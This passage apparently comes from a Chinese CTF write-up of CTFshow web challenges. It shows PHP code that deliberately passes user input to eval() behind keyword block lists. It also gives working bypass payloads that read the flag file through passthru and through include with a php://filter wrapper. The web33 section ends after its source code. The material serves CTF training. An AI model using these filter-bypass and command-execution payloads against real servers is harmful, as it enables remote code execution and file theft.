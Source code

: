 pyload:?c=eval($_GET('a'));&a=passthru("more%09fl*");右键查看源代码

### web32

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:56:31
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

emmm,又多过滤了echo,分号还有左括号,反引号

问题不大,我们用include来文件包含绕过,include不用括号

;可以用?>代替，因为php语言最后一句话可以不用;结尾

pyload:?c=include%0a$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php

然后base64解码即可

### web33

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 02:22:27
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/
//
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
